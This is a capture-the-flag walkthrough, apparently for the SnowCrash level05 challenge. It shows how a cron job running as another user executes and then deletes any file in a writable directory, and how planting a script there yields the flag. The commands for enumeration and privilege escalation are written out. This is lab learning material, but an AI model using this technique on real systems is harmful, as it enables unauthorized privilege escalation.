 The command ```find / -group level05 2>/dev/null``` lists nothing of interest but the command :
```find / -group flag05 2>/dev/null``` get this results :
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver

=> execute /usr/sbin/openarenaserver as flag05 ?

The command ```find / -name "level05" 2>/dev/null``` get these files :
/var/mail/level05
/rofs/var/mail/level05

```cat /var/mail/level05```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

***this looks like a crontab syntax to execute the command every 2 minutes***
we can assume this crontab is in use for flag05 user

```find / -group mail 2>/dev/null```
/usr/bin/dotlockfile
/usr/bin/mail-lock
/usr/bin/mail-touchlock
/usr/bin/mail-unlock
/var/mail
/var/mail/level05

```cat /usr/sbin/openarenaserver```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

This script execute any file in /opt/openarenaserver then delete it

we create a file in this directory that executes getflag ```echo "/bin/getflag > /tmp/flag" > /opt/openarenaserver/getflag```
we add permission to be executed : ```chmod +x /opt/openarenaserver/getflag```
after waiting 2 minutes the file /tmp/flag contains our flag : ```cat /tmp/flag```

This method can be refined with the command ```echo "/bin/getflag | wall``` as now all users get the getflag message
